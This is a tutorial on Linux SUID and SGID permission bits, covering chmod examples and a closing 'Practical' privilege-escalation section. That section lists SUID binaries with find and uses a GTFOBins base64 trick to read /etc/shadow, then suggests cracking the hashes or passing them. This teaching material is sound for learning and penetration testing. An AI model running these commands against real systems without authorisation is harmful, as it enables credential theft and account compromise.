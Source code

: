 # SUID

SUID, Set User ID, is a special permission bit flag that applies to files and directories to provide elevated access as the file owner during execution. In a permission string, the SUID bit is represented as an "s" and applied to the user permission field. Below is an example of a directory where the file contents can be executed with the permissions of the directory owner.
```
drwsrwxr--  2  kayem  kayem    4096  Jul 22  19:45  kayem
```
You can apply SUID bits to a file or directory with octal or symbolic representations. Using octal representation looks like this:
```
chmod 4774 kayem
```
The 4 represents the SUID bit and the following numbers are permissions applied to each consecutive permission set.

To set the SUID bit with symbolic representation you can use the following command:
```
chmod u+s kayem
```
This command adds the SUID bit to the user permission set.

# SGID

SGID, Set Group ID, is another special permission bit that provides elevated access as the group owner during execution. The SGID bit is represented as an "s" or "S" in the group set of a permission string, where the "s" represents execute permissions and the "S" represents no execute permissions. You can apply SGID bits to a file or directory with octal or symbolic representations. Using octal representation looks like this:
```
chmod 2774 kayem
```
With the `ls -l` command, the permissions applied to the kayem directory are:
```
drwxrwsr-- 2 kayem kayem   4096 Jul 22 19:45 kayem
```
If we want to remove execute permissions for the group we can use the following command:
```
chmod 2764 kayem
```
The permissions applied to the directory are now:
```
drwxrwSr-- 2 kayem kayem   4096 Jul 22 20:12 wassup
```
To set the SGID bit with symbolic representation, you can use the following command:
```
chmod g+s kayem
```
To remove the SGID bit with symbolic representation, you can use the following command:
```
chmod g-s kayem
```

# Practical

Although you can use automated tools like Linpeas (https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to hunt for potentially vulnerable SUID bit set programs, it is noteworthy to understand how you can manually track them. The following command uses the 'find' program to search the file system's root directory for all files with the SUID bit set whilst redirecting all standard errors to the /dev/null directory.
```
find / -perm -u=s -type f 2>/dev/null
```
You can complement this command with GTFOBins (https://gtfobins.github.io/), a library of binaries that can be used against command-line utilities to elevate privileges. Running this command on the target system revealed the base64 binary stored at `/usr/bin/base64`, with the help of GTFOBins, the following command can be used to read the contents of the `/etc/shadow` file.
```
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
After executing this command, you should have the hashes for all users on the system and can crack them with Hydra, Hashcat, JohnTheRipper, or perform a Pass-The-Hash attack.
